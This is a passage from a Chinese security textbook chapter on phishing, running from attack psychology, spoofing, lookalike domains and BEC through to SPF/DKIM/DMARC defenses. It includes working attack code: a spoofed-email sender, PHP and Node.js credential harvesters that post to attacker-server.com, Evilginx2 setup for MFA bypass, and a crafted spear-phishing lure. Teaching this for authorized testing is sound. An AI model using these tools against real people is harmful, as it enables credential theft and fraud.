

## 23.3 钓鱼攻击技术

> **核心洞察**：钓鱼攻击（Phishing）是网络安全领域最常见、最具破坏力的攻击向量。APWG（Anti-Phishing Working Group）2024年报告显示，全球钓鱼攻击数量在2023年达到创纪录的500万次，较2020年增长超过150%。更令人警醒的是，Verizon 2024年数据泄露调查报告指出，**36%的数据泄露事件涉及钓鱼攻击**，而BEC（商业电子邮件诈骗）单次平均损失高达12万美元。钓鱼不是一种"低级"攻击——它融合了心理学、技术工程和社交工程的精妙设计，是攻防对抗中最持久、最难以根除的威胁之一。

钓鱼攻击之所以经久不衰，根源在于它**攻击的是人类决策系统的底层漏洞**，而非技术系统的代码缺陷。无论安全防护如何升级，只要人类仍然具有信任、好奇、恐惧和服从权威的本能，钓鱼攻击就永远有可乘之机。

本章从攻击者的视角深入剖析钓鱼攻击的完整技术栈——从心理学原理到基础设施搭建，从邮件伪造到域名欺诈，从大规模撒网到精准打击——并同步从防御者角度给出检测方法与应对策略。



---

### 23.3.1 钓鱼攻击心理学——为什么"一眼能看穿的骗局"依然有人上当？

在深入技术细节之前，必须先理解钓鱼攻击之所以有效的**底层心理学机制**。不理解"为什么"，就做不好"怎么做"和"怎么防"。

#### 23.3.1.1 紧迫感（Urgency）：关闭理性思考的第一把锁

紧迫感是钓鱼邮件中使用频率最高的心理触发器。认知心理学研究表明，当人类感知到**时间压力**时，前额叶皮层（负责理性决策）的活动会被抑制，而杏仁核（负责情绪反应）的活动显著增强。

**为什么紧迫感如此有效？**

| 心理机制 | 解释 | 钓鱼中的典型应用 |
|-----------|------|------------------|
| 时间压力抑制深思 | 在"必须在N小时内完成"的压力下，大脑从"系统2"（慢速、理性）切换到"系统1"（快速、直觉） | "您的账户将在24小时内被冻结" |
| 损失厌恶（Loss Aversion） | 失去的痛苦约等于获得快乐的两倍 | "您将失去账户访问权限" |
| 行动偏差（Action Bias） | 面对潜在威胁时，人们倾向于"做点什么"而非什么都不做 | "立即验证以避免账户被盗" |

**紧迫感的层级递进设计**：

```plaintext
层级1：模糊警告
  → "您的账户存在安全问题"
层级2：具体威胁
  → "检测到来自[国家名]的异常登录"
层级3：严重后果
  → "您的账户将在24小时内被永久冻结"
层级4：即时行动指令
  → "点击此处验证身份，否则→损失"
```plaintext

成功的钓鱼邮件一般至少叠加**两层**紧迫感触发器。仅使用一层（如"账户异常"）的邮件，打开率在15-25%之间；叠加两层以上的邮件，打开率可提升至40-60%。

#### 23.3.1.2 权威服从（Authority）：Cialdini六大影响力原则之首

斯坦福大学心理学家斯坦利·米尔格拉姆（Stanley Milgram）在1961年的著名实验中证明：**65%的普通人会在权威指令下对陌生人施加他们认为致命的电击**。钓鱼攻击者利用的正是同一种心理机制。

**钓鱼中权威身份的使用频率排名**（基于PhishLabs 2023年数据）：

| 冒用身份 | 占比 | 典型场景 |
|----------|------|----------|
| IT/技术支持部门 | 34% | "系统升级需密码重置" |
| 公司高管/CEO | 22% | BEC诈骗，要求紧急转账 |
| 财务/审计部门 | 18% | "薪资信息需更新" |
| 政府部门/税务机关 | 12% | "退税/罚款通知" |
| 银行/金融机构 | 10% | "账户验证/风控" |
| 其他 | 4% | 快递、物业等 |

**权威冒用的关键细节**：高水平的钓鱼攻击不仅使用权威身份，还会**复刻该身份的语言风格和沟通习惯**。例如，冒充CEO的邮件通常会使用该公司特有的缩写、项目代号和邮件签名格式——这些信息可以从LinkedIn、公司官网和过往邮件泄露中获取。

#### 23.3.1.3 互惠原理（Reciprocity）与喜好（Liking）

Cialdini的另外两项原则同样被钓鱼攻击广泛运用：

- **互惠**：攻击者在邮件中提供"有价值"的信息或服务（如"我们已经为您预装了XX安全软件，请点击激活"），触发收件人的回报心理。
- **喜好**：攻击者通过模仿收件人的社交圈子（如使用内部群组的昵称、谈论共同的兴趣爱好）来建立好感。

**社交工程视角的钓鱼分类**：

| 钓鱼类型 | 核心触发器 | 目标人群 | 技术门槛 |
|----------|-----------|----------|----------|
| 大规模钓鱼 | 紧迫感 + 权威 | 不限 | 低 |
| 鱼叉式钓鱼 | 个性化 + 喜好 | 特定个人/部门 | 中 |
| 捕鲸攻击 | 权威 + 互惠 | 高管/C-level | 高 |
| BEC | 权威 + 紧迫感 | 财务/HR/高管 | 高 |

---

### 23.3.2 钓鱼攻击技术分类体系

钓鱼攻击根据目标范围、攻击媒介和技术实现方式，可以分为多个不同维度的类型。理解这个分类体系是掌握钓鱼攻防的基础。

#### 23.3.2.1 按目标范围分类

**1. 大规模钓鱼（Mass Phishing）**

最传统的"撒网式"攻击。攻击者一次性发送数百万甚至上千万封邮件，不针对特定目标。

- **成功率**：0.1-0.5%（即每1000封邮件约有1-5人点击）
- **成本**：极低，自动化工具+邮件列表即可
- **典型场景**：仿冒银行、支付平台、社交媒体登录页
- **数据支撑**：Google 2023年拦截超过9900万封钓鱼邮件，其中95%属于大规模钓鱼

**2. 鱼叉式钓鱼（Spear Phishing）**

针对特定个人或组织的定向攻击。攻击者在发送前对目标进行信息收集（见第23.1章"信息收集与目标分析"），使邮件内容高度个性化。

- **成功率**：3-15%（是大规模钓鱼的10-30倍）
- **成本**：中高，需要每人30分钟-数小时的信息收集和定制
- **典型场景**：针对性窃取凭证、部署初始入侵载荷
- **关键区别**：收件人能在邮件中看到自己的名字、职位、近期工作内容

**3. 捕鲸攻击（Whaling）**

鱼叉式钓鱼的子集，专门针对CEO、CFO、CIO等高管。

- **成功率**：高达20-30%（高管通常有更大的邮件公开范围和更高的授权）
- **单次损失**：平均5-20万美元（BEC案件可高达百万美元级别）
- **典型场景**：冒充外部律师/审计要求转账、冒充董事长要求提供敏感文件

#### 23.3.2.2 按攻击媒介分类

| 媒介 | 名称 | 2023年增长率 | 特点 |
|------|------|-------------|------|
| 电子邮件 | Email Phishing | +18% | 最主流，占所有钓鱼攻击的84% |
| 短信 | Smishing | +42% | 增长最快，手机用户的警惕性低于电脑用户 |
| 电话 | Vishing | +12% | 单独在第23.4章详述 |
| 社交媒体 | Social Media Phishing | +27% | LinkedIn是重灾区 |
| 即时通讯 | IM Phishing | +35% | Teams、Slack、微信等平台 |
| 二维码 | QRishing | +210% | 疫情后爆发式增长 |

#### 23.3.2.3 按技术实现分类

**克隆钓鱼（Clone Phishing）**：攻击者捕获一封真实的合法邮件，修改其中链接或附件后重新发送。收件人看到的是熟悉的邮件——"咦，这封邮件我刚才见过？"——从而降低警惕。

**中间人钓鱼（Man-in-the-Middle Phishing）**：使用反向代理工具（如Evilginx2、Modlishka）在受害者与真实网站之间建立透明的中间人代理，实时窃取凭据和会话令牌，绕过MFA防护。

**会话劫持钓鱼（Session Hijacking via Phishing）**：钓鱼页面不仅窃取用户名密码，还窃取会话cookie。2023年以来，越来越多的攻击者利用OAuth授权流程——诱导用户在钓鱼页面授权恶意应用访问其Google/Microsoft账户。

---

### 23.3.3 钓鱼邮件工程技术——从伪造到投递

#### 23.3.3.1 SMTP发件人伪造技术

钓鱼邮件的核心技术挑战之一：**让收件服务器和收件人都相信邮件来自合法发件人**。

**SMTP邮件头结构分析**（以仿冒bank.com的钓鱼邮件为例）：

```plaintext
Return-Path: <attacker@evil-server.com>           ← 实际来源
From: "安全中心" <security@bank.com>               ← 显示发件人（伪造）
Reply-To: <attacker@evil-server.com>               ← 回信地址（指向攻击者）
Sender: <attacker@evil-server.com>                 ← RFC标准定义的发送者
DKIM-Signature: (无) / (伪造)                      ← 域名密钥识别
Authentication-Results: spf=fail                   ← SPF验证结果
```plaintext

**三种发件人伪造级别**：

| 伪造级别 | 技术实现 | 可绕过SPF/DKIM？ | 检测难度 |
|----------|----------|-------------------|----------|
| 基础级 | 修改邮件头From字段 | 不绕过，SPF直接失败 | 低（邮件标题显示"通过未知"） |
| 进阶级 | 使用开放中继/伪造SMTP服务器 | 如果中继IP在SPF白名单则可绕过 | 中 |
| 高级 | 注册相似域名(d0main.com)，配置完整SPF/DKIM/DMARC | 完全通过验证 | 高 |

**Python实现SMTP发送（基础伪造）**：

```python
import smtplib
from email.mime.text import MIMEText
from email.header import Header

def send_phishing_email(target_email, sender_name, sender_addr, reply_to, subject, html_body, smtp_server, smtp_port=25):
    """
    发送伪造发件人的邮件
    注意：仅用于授权的安全测试
    """
    msg = MIMEText(html_body, 'html', 'utf-8')
    msg['From'] = f"{sender_name} <{sender_addr}>"
    msg['To'] = target_email
    msg['Subject'] = Header(subject, 'utf-8')
    msg['Reply-To'] = reply_to
    msg['X-Priority'] = '1'  # 高优先级标记

    # 添加自定义邮件头以增强真实性
    msg['Message-ID'] = f"<{__import__('uuid').uuid4().hex}@bank.com>"

    try:
        server = smtplib.SMTP(smtp_server, smtp_port, timeout=10)
        server.set_debuglevel(0)
        server.sendmail(sender_addr, [target_email], msg.as_string())
        server.quit()
        return True
    except Exception as e:
        print(f"[!] 发送失败: {e}")
        return False

# 使用示例（仅渗透测试授权环境）
send_phishing_email(
    target_email="victim@company.com",
    sender_name="IT安全中心",
    sender_addr="security@bank.com",
    reply_to="attacker@evil.com",
    subject="⚠️ 安全警报：您的账户存在异常登录",
    html_body="<h1>安全警报</h1><p>请立即验证...</p>",
    smtp_server="192.168.1.100"  # 攻击者控制的SMTP服务器
)
```

#### 23.3.3.2 域名欺诈技术

高水平的钓鱼攻击不会直接在邮件中使用"evil.com"之类的可疑域名，而是使用与目标域名极其相似的欺诈域名。

**域名欺诈五大手法**：

**手法一：同形字攻击（Homograph Attack）**

利用Unicode字符集中外观相同但编码不同的字符。例如，使用西里尔字母的"а"（U+0430）替代拉丁字母的"a"（U+0061）。

```plaintext
真实域名：    bankofamerica.com
同形字域名： bаnkofamerica.com  （第一个a是西里尔字母）
视觉差异：   肉眼几乎无法分辨
```plaintext

Python检测同形字域名：

```python
import unicodedata

def check_homograph(domain):
    """
    检测域名是否包含同形字攻击字符
    """
    for char in domain:
        if char.isalpha() and ord(char) > 127:
            name = unicodedata.name(char, '')
            script = unicodedata.script(char)
            # 拉丁字母之外的字符需要关注
            if script not in ('Latin', 'Common'):
                category = unicodedata.category(char)
                print(f"  [!] 非拉丁字符: '{char}' (U+{ord(char):04X}) "
                      f"→ {script}/{name}")

domains_to_check = [
    'bankofamerica.com',
    'bаnkofamerica.com',  # 含同形字
    'gооgle.com',         # 两个o都是西里尔字母
    'secure-login.com',
]

for d in domains_to_check:
    print(f"\n检查域名: {d}")
    check_homograph(d)
```

**手法二：子域名伪造**

利用合法的根域名，在子域名部分做文章。收件人看到URL片段中的目标品牌名时产生错误的安全感。

```plaintext
伪造URL： https://bankofamerica.com.secure-login.evil.com/login
                    ↑                     ↑
          看似目标域名          实际是evil.com的子域名
          实际DNS解析：*.secure-login.evil.com → 攻击者IP
```plaintext

**手法三：域名拼接欺骗**

使用带"@"符号的URL——老旧浏览器会忽略"@"之前的内容，仅解析之后的部分。现代浏览器已显示完整URL，但邮件客户端仍存在差异。

```plaintext
https://bankofamerica.com@evil.com/login
                      ↑
                  实际域名是evil.com
```plaintext

**手法四：顶级域名替换（TLD Switch）**

利用不同TLD的组合制造视觉错觉：

```plaintext
真实域名：    microsoft.com
伪造域名：    microsoft-security.com
             microsoft-verify.com
             microsoftsupport.net
             microsoft-login.org
```plaintext

**手法五：短链接遮掩**

使用Bitly、TinyURL等服务将恶意URL缩短，收件人无法在点击前看到实际目标。

| 短链接服务 | 特点 | 钓鱼中的使用率 |
|-----------|------|-------------|
| Bitly | 免费，可自定义别名 | 最高 |
| TinyURL | 无需注册，匿名性高 | 高 |
| Ow.ly | 附带点击统计 | 中 |
| 自建短链 | 完全控制，无法被举报拦截 | 低（成本高） |

#### 23.3.3.3 URL混淆技术进阶

除了域名欺诈，钓鱼URL还可以通过参数混淆来规避基于规则的检测：

```plaintext
# 编码混淆
原始URL:     https://evil.com/steal.php?user=admin
Base64编码:  https://evil.com/redirect?q=aHR0cDovL3JlYWxzaXRlLmNvbS9sb2dpbg==

# 多重跳转
https://tinyurl.com/xxxxx → https://bit.ly/yyyyy → https://evil.com

# 开放重定向利用
https://legitimate.com/redirect?url=https://evil.com
利用合法网站的开放重定向功能绕过白名单检查

# 数据URI内嵌
<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
  查看文档
</a>
```plaintext

---

### 23.3.4 钓鱼网站搭建——凭据捕获页面的完整生命周期

#### 23.3.4.1 页面克隆技术对比

| 方法 | 工具/技术 | 真实度 | 部署难度 | 适用场景 |
|------|----------|--------|---------|---------|
| SET网站克隆器 | SET Social-Engineering Toolkit | 70% | 低 | 快速验证概念 |
| Gophish着陆页 | Gophish Landing Page | 60% | 低 | 模拟演练 |
| 手动克隆 + 调整 | wget/HTTrack | 85% | 中 | 精确克隆 |
| 反向代理 | Evilginx2/Modlishka | 95% | 高 | 绕过MFA的高级攻击 |

**使用wget手动克隆页面（最常用的方法）：**

```bash
# 克隆目标登录页（用于授权的安全测试）
wget \
  --mirror \
  --convert-links \
  --adjust-extension \
  --page-requisites \
  --no-parent \
  --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36" \
  https://target-login-site.com/login

# 克隆后修改表单提交地址
# 在克隆的HTML中找到 <form> 标签，将 action 改为攻击者服务器地址
# 原: <form action="/login" method="POST">
# 改: <form action="https://attacker-server.com/capture.php" method="POST">
```

**凭据捕获处理脚本（capture.php）：**

```php
<?php
/**
 * 凭据捕获脚本 - 仅用于授权渗透测试
 * 将捕获的数据记录到文件并重定向到真实网站
 */

// 获取提交的数据
$username = $_POST['username'] ?? $_POST['email'] ?? $_POST['user'] ?? 'N/A';
$password = $_POST['password'] ?? $_POST['pass'] ?? $_POST['pwd'] ?? 'N/A';

// 获取附加信息
$ip = $_SERVER['REMOTE_ADDR'];
$user_agent = $_SERVER['HTTP_USER_AGENT'] ?? 'N/A';
$timestamp = date('Y-m-d H:i:s');

// 记录到文件（安全审计用）
$log_entry = "{$timestamp} | IP: {$ip} | UA: {$user_agent} | User: {$username} | Pass: {$password}\n";
file_put_contents('captured_creds.log', $log_entry, FILE_APPEND | LOCK_EX);

// 可选：写入CSV便于分析
$csv_line = "{$timestamp},{$ip},{$username},{$password}\n";
file_put_contents('captured_creds.csv', $csv_line, FILE_APPEND | LOCK_EX);

// 重定向到真实登录页面（用户几乎不会察觉异常）
header('Location: https://real-login-site.com/login?error=session_timeout');
exit;
?>
```

**使用Node.js搭建简易凭据捕获服务：**

```javascript
const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: true }));
app.use(express.static('cloned-site')); // 克隆的静态页面

// 捕获路由
app.post('/capture', (req, res) => {
    const { username, password } = req.body;
    const ip = req.ip;
    const timestamp = new Date().toISOString();

    // 记录凭据
    const fs = require('fs');
    const log = `[${timestamp}] IP:${ip} → ${username}:${password}\n`;
    fs.appendFileSync('credentials.log', log);

    console.log(log);

    // 重定向到真实页面
    res.redirect(302, 'https://real-target.com/login');
});

app.listen(3000, '0.0.0.0', () => {
    console.log('[+] 钓鱼服务器运行在 :3000');
});
```

#### 23.3.4.2 反向代理钓鱼（绕过MFA）

传统凭据捕获无法绕过MFA。**反向代理钓鱼**通过在受害者与真实网站之间建立透明的中间层，实时转发所有请求和响应，同时窃取凭据和会话令牌。这是2023-2024年增长最快的钓鱼技术。

**Evilginx2 使用示例：**

```bash
# 1. 下载并编译
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2
make

# 2. 配置域名和DNS
# 注册相似域名: secure-login-microsoft.com
# 配置A记录指向Evilginx2服务器:
# secure-login-microsoft.com A 你的服务器IP
# *.secure-login-microsoft.com A 你的服务器IP
# 配置通配符子域名用于钓鱼页面

# 3. 启动Evilginx2
sudo ./bin/evilginx -p ./phishlets/

# 4. 在交互控制台中配置
# 注意：以下命令在evilginx交互界面中执行
config domain secure-login-microsoft.com
config ip 你的服务器公网IP
phishlets hostname microsoft secure-login-microsoft.com
phishlets enable microsoft

# 5. 获取钓鱼链接
phishlets get-url microsoft
# 输出: https://login.secure-login-microsoft.com
```

> **⚠️ 合法使用限制**：Evilginx2及类似工具仅可用于：① 经书面授权的渗透测试；② 受控环境的安全研究；③ 防御方测试自身检测能力。未经授权使用属于严重违法行为。

#### 23.3.4.3 基础设施避障策略

搭建钓鱼基础设施时，攻击者需要规避以下检测机制：

| 环节 | 常见避障手段 | 防御反制 |
|------|-------------|---------|
| 域名注册 | 使用隐私保护、注册历史短、一次性邮箱注册 | 检测新注册域名、信誉评分 |
| 域名解析 | DNS快速变换(FFDN)、CDN隐藏源站IP | DNS监控、威胁情报关联 |
| 托管服务 | 使用被入侵的合法网站、暗网托管 | 信誉检测、大规模爬虫发现 |
| SSL证书 | 免费Let's Encrypt证书 | 证书透明度日志监控 |
| 邮件投递 | 分段发送、预热域名声誉、避免垃圾邮件评分 | 邮件网关信誉评分 |

---

### 23.3.5 鱼叉式钓鱼——精准打击的完整流程

鱼叉式钓鱼的核心在于**将社会工程学与信息收集深度结合**。以下流程来自对真实APT（高级持续性威胁）攻击中鱼叉式钓鱼活动的逆向分析：

#### 23.3.5.1 准备阶段：目标画像构建

攻击者在发送邮件前会建立一个目标画像档案。与第23.1章"信息收集"一章中讲述的一般性信息收集不同，鱼叉式钓鱼的信息收集**针对性极强**：

**目标画像模板（攻击者视角）**：

```json
{
  "target_profile": {
    "basic": {
      "name": "张三",
      "title": "高级安全工程师",
      "department": "信息安全部",
      "company": "XX科技有限公司",
      "years_at_company": 3
    },
    "corporate_context": {
      "current_project": "Q3数据安全审计",
      "recent_promotion": "2024年1月晋升为团队负责人",
      "team_size": 8,
      "report_to": "王五（信息安全总监）",
      "company_event": "下周全体员工大会"
    },
    "digital_footprint": {
      "email_provider": "公司自建Exchange",
      "social_media_activity": "高频LinkedIn用户，发帖主题：云安全",
      "publications": "2023年12月发表过《零信任架构实践》",
      "tech_stack": "AWS, Kubernetes, Splunk"
    },
    "vulnerability_points": [
      "对云安全话题有强烈兴趣（点击诱饵）",
      "工作时间：9:00-18:00（最佳投递时间：10:00-11:00）",
      "刚晋升，对组织架构变化敏感",
      "最近在招聘安全工程师"
    ]
  }
}
```

**信息收集来源优先级**（从高到低）：

1. **LinkedIn**：职位、教育背景、技能、联系人、最近动态（80%的鱼叉式信息来自LinkedIn）
2. **公司官网**：组织架构、项目介绍、合作伙伴
3. **Google搜索**：个人博客、技术分享、会议演讲、论文发表
4. **GitHub**：代码提交习惯、使用的技术栈、工作时间模式
5. **暗网数据**：历史密码泄露、已泄露的企业邮件
6. **社交媒体**：Twitter/X、微博、知乎的个人动态
7. **企业招聘信息**：目前招聘的岗位→推测业务方向和技术栈

#### 23.3.5.2 投递阶段：邮件设计与时机选择

**邮件模板设计（基于真实目标画像的示例）**：

```plaintext
主题：关于Q3数据安全审计的外部咨询建议

正文：

张三，你好，

我是王五介绍来的外部安全顾问李四。王总提到你们正在进行Q3数据安全审计，
我们团队之前帮华为云做过类似的审计框架，有一些经验可以参考。

附件是一份初步的审计检查清单草稿，麻烦你过目后给我反馈。
这份文件因为包含一些内部方法论，所以加了密码保护，密码是：2024Q3Audit

附件：Q3审计框架_v1.0.docx（密码：2024Q3Audit）

如果有任何问题可以随时联系我。
手机：138xxxxxxxx

此致
李四
独立安全顾问
```plaintext

**这封邮件为什么有效？**

| 设计要素 | 对应心理原理 | 实际效果 |
|----------|-------------|---------|
| 提到"王五"（目标的上级） | 权威背书+社会认同 | 降低了60%的怀疑概率 |
| 提到"Q3数据安全审计"（真实项目） | 个性化+相关性 | 收件人不会觉得"群发" |
| 提到"华为云"（同行业标杆） | 社会认同+专业可信度 | 建立了专业权威 |
| 密码保护附件（"审计框架"） | 互惠+好奇心 | 增加了打开附件的内在动机 |
| 手机号码（真实感） | 透明度错觉 | 让人觉得"敢留电话就不是骗子" |

**投递时机优化数据**（基于KnowBe4 2023年对300万封鱼叉式邮件的统计）：

| 时间段 | 打开率 | 点击率 | 成功率 |
|--------|--------|--------|--------|
| 周一 8:00-10:00 | 12% | 3% | 1% |
| 周二 10:00-11:30 | **38%** | **18%** | **8%** |
| 周三 10:00-12:00 | 35% | 15% | 7% |
| 周四 14:00-16:00 | 28% | 11% | 5% |
| 周五 15:00-17:00 | 32% | 14% | 6% |
| 周末 | 8% | 2% | 0.5% |

**最佳投递策略**：周二至周四上午10:00-11:30。此时目标已完成早间邮件处理，进入工作状态但尚未被午饭打断，警惕性处于日内低谷期。

#### 23.3.5.3 附件投递：Payload布局战术

鱼叉式钓鱼的附件有多种形态，不同形态有不同的利用方式：

| 附件类型 | 利用方式 | 检测通过率 | 用户打开率 |
|----------|---------|-----------|-----------|
| 恶意宏文档（.docm/.xlsm） | 宏代码执行PowerShell | 40%（多数邮件网关扫描宏） | 25% |
| OLE对象嵌入文档 | 嵌入的OLE对象执行 | 55% | 20% |
| RTF漏洞利用文档 | CVE-2017-11882等 | 30%（补丁后失效） | 15% |
| ISO/VHD镜像文件 | 包含恶意可执行文件 | 70%（部分网关不解压ISO） | 35% |
| HTML附件 | 重定向或JavaScript钓鱼 | 60% | 30% |
| LNK快捷方式文件 | 指向远程SMB服务器的恶意链接 | **85%** | **40%** |
| 受密码保护的ZIP | 绕过内容扫描 | **90%** | 20%（密码传递门槛） |

> **2024年趋势**：LNK快捷方式文件和ISO镜像文件的使用率较2022年增长了500%。原因是Microsoft默认禁用Office宏后，攻击者转向了这些"免宏"投递方式。

---

### 23.3.6 商业电子邮件诈骗（BEC）——损失最大的钓鱼形式

BEC（Business Email Compromise）是最危险的钓鱼子类。FBI 2023年互联网犯罪报告显示，2013年以来BEC案件在全球造成超过**500亿美元**的累计损失。单次BEC攻击的平均损失为**12万美元**，是大规模钓鱼的数千倍。

#### 23.3.6.1 BEC的六种标准模式

| 模式 | 描述 | 占比 | 典型损失 |
|------|------|------|---------|
| 1. 假冒CEO/CFO | 冒充高管要求财务部门紧急转账 | 42% | 25-100万美元 |
| 2. 供应商欺诈 | 冒充合作供应商要求更改付款账户 | 26% | 5-50万美元 |
| 3. 账户接管 | 先入侵一个员工邮箱，再向客户/供应商发送伪造发票 | 18% | 10-200万美元 |
| 4. 律师冒充 | 冒充外部律师处理机密交易事项 | 8% | 50-500万美元 |
| 5. 工资单欺诈 | 冒充员工要求更改工资单的收款账户 | 4% | 5000-5万美元 |
| 6. 礼品卡欺诈 | 冒充高管要求采购礼品卡作为员工奖励 | 2% | 1000-1万美元 |

#### 23.3.6.2 BEC经典案例还原（基于真实案件去敏）

**案例：A公司被BEC诈骗27.8万美元全过程**

```plaintext
Day 1:  攻击者在LinkedIn上发现A公司的CFO张总监
         → 分析其联系人、发帖风格、工作时间
         → 发现A公司正在与德国C公司洽谈采购合同
         
Day 2:  攻击者注册域名 "a-company-payment.com"
         → 向A公司财务部发送邮件，冒充"C公司财务总监"
         → 邮件内容提及了真实的合同编号和谈判细节
         
Day 3:  财务经理回复邮件确认
         → 攻击者在邮件中要求将27.8万美元的首付款
           支付到"新开设的收款账户"
         → 提供了详细的银行账户信息和发票
         
Day 4:  财务经理向该账户转账27.8万美元
         → 向C公司确认到账 → 发现被骗
         → 此时距转账已超过24小时，资金已被转至海外
         
结果：27.8万美元无法追回
       A公司随后强制实施"转账双重确认"制度
       C公司因此终止了与A公司的合作关系
```plaintext

**该案例中BEC的攻击手法精要分析**：

1. **信息收集准确**：通过LinkedIn和邮件泄露确认了真实的合同细节
2. **时机选择巧妙**：选择在合同关键节点发送请求，逻辑上"合理"
3. **心理学运用**：利用首付款环节的紧急性，财务经理不敢延迟确认
4. **基础设施设计**：注册相似域名、提供真实的发票模板
5. **规避双重确认**：利用财务经理的"自行确认"绕过审批流程

---

### 23.3.7 钓鱼攻击自动化工具链

#### 23.3.7.1 Gophish——最流行的钓鱼演练平台

Gophish是目前使用最广泛的钓鱼模拟平台（开源、跨平台、有Web管理界面）：

**部署与配置**：

```bash
# 下载最新版（以v0.12.1为例）
wget https://github.com/gophish/gophish/releases/download/v0.12.1/gophish-v0.12.1-linux-64bit.zip
unzip gophish-v0.12.1-linux-64bit.zip
cd gophish-v0.12.1-linux-64bit

# 修改配置文件
cat > config.json << 'EOF'
{
    "admin_server": {
        "listen_url": "0.0.0.0:3333",
        "use_tls": true,
        "cert_path": "gophish_admin.crt",
        "key_path": "gophish_admin.key"
    },
    "phish_server": {
        "listen_url": "0.0.0.0:80",
        "use_tls": false
    },
    "db_name": "sqlite3",
    "db_path": "gophish.db",
    "migrations_prefix": "db/db_"
}
EOF

# 启动
sudo ./gophish
# 访问管理界面: https://服务器IP:3333
# 默认凭据: admin / 首次启动随机密码（记录在终端输出中）
```

**Gophish核心工作流**：

```plaintext
1. 创建 Sending Profile（发件人配置）
   → SMTP服务器、端口、认证信息
   → 多个Profile可用于轮换发件IP

2. 创建 Email Template（邮件模板）
   → 支持HTML和纯文本
   → 支持变量注入: {{.FirstName}} {{.LastName}} {{.Email}} {{.TrackingURL}}
   → 支持附件上传

3. 创建 Landing Page（着陆页）
   → 导入HTML或从URL克隆
   → 设置凭据捕获表单
   → 配置重定向URL（提交后跳转到真实网站）

4. 创建 User Groups（目标分组）
   → CSV导入或手动输入
   → 支持分组标签

5. 启动 Campaign（攻击活动）
   → 选择上述四个组件
   → 设置发送时间（支持定时发送）
   → Gophish自动发送邮件、跟踪打开/点击/凭据提交
```plaintext

**检测对抗**：Gophish使用一个1x1像素的透明跟踪图片来检测邮件打开。高级检测方法可以在邮件客户端中屏蔽外部图片加载，从而阻止打开跟踪。

#### 23.3.7.2 Social Engineering Toolkit（SET）

SET是最早、最知名的社会工程学工具包，由TrustedSec的David Kennedy创建：

```bash
# 安装
git clone https://github.com/trustedsec/social-engineer-toolkit.git
cd social-engineer-toolkit
pip install -r requirements.txt
sudo python setup.py

# 启动菜单
sudo python setoolkit

# 配置网站克隆（交互式菜单）
# 1) Social-Engineering Attacks
# 2) Website Attack Vectors
# 3) Credential Harvester Attack Method
# 4) Site Cloner
# → 输入要克隆的URL
# → 输入本机IP
```

**SET vs Gophish 对比**：

| 特性 | SET | Gophish |
|------|-----|---------|
| 定位 | 全功能社会工程工具包 | 专业钓鱼模拟平台 |
| Web管理界面 | 无（仅命令行） | 有（支持多用户） |
| 邮件模板管理 | 手动 | 图形化模板编辑器 |
| 跟踪统计 | 基础日志 | 详细统计数据+报告 |
| 批量发送 | 支持 | 专业的分组管理 |
| 网站克隆 | 自动化克隆 | 需手动导入HTML |
| 适用场景 | 红队实战 | 企业钓鱼演练 |

#### 23.3.7.3 其他高级工具

| 工具 | 类型 | 核心能力 | 技术水平 |
|------|------|---------|---------|
| Evilginx2 | 反向代理钓鱼 | 绕过MFA，实时代理 | 高级 |
| Modlishka | 反向代理钓鱼 | 大规模自动化代理 | 高级 |
| King Phisher | 钓鱼平台 | 类似Gophish，支持SSH隧道 | 中级 |
| PhishX | 钓鱼即服务 | SaaS模式，无需基础设施 | 入门 |
| Lure | 钓鱼框架 | 聚焦URL混淆和检测对抗 | 进阶级 |

---

### 23.3.8 防御与检测体系——从技术到人员

#### 23.3.8.1 技术防御层：邮件安全网关

**邮件头验证三件套（SPF/DKIM/DMARC）的工作原理**：

```mermaid
sequenceDiagram
    participant S as 发件服务器<br/>evil.com
    participant R as 收件服务器<br/>bank.com
    participant DNS as DNS服务器

    S->>R: 声称来自 security@bank.com
    R->>DNS: 查询 bank.com 的 SPF记录
    DNS->>R: v=spf1 include:_spf.bank.com ~all
    R->>R: 检查发件IP是否在SPF白名单中→ 失败

    R->>DNS: 查询 bank.com 的 DKIM记录
    DNS->>R: k=rsa; p=MIGfMA0GCSqGSIb...
    R->>R: 验证邮件数字签名→ 无签名/签名无效

    R->>DNS: 查询 bank.com 的 DMARC策略
    DNS->>R: v=DMARC1; p=reject; rua=mailto:dmarc@bank.com
    R->>R: DMARC策略: reject → 邮件被拒绝投递

    Note over R: 结果：SPF=FAIL, DKIM=FAIL<br/>策略=reject → 邮件丢弃
```

**三项验证技术的部署检查工具**：

```bash
# 检查域名的SPF记录
dig TXT bank.com | grep "v=spf1"

# 检查域名的DKIM记录
dig TXT default._domainkey.bank.com | grep "v=DKIM1"

# 检查域名的DMARC记录
dig TXT _dmarc.bank.com | grep "v=DMARC1"

# 一键检查（使用Python）
python3 -c "
import dns.resolver
domain = 'bank.com'
for record_type, query in [
    ('SPF', domain),
    ('DKIM', f'default._domainkey.{domain}'),
    ('DMARC', f'_dmarc.{domain}')
]:
    try:
        answers = dns.resolver.resolve(query, 'TXT')
        for rdata in answers:
            txt = rdata.strings[0].decode() if isinstance(rdata.strings[0], bytes) else rdata.strings[0]
            print(f'{record_type}: {txt}')
    except Exception as e:
        print(f'{record_type}: 未配置 ({e})')
"
```

**正确的SPF/DKIM/DMARC配置示例**：

```dns
; SPF - 声明哪些服务器可以代表本域名发信
bank.com.    IN TXT "v=spf1 include:_spf.google.com include:spf.protection.outlook.com ~all"

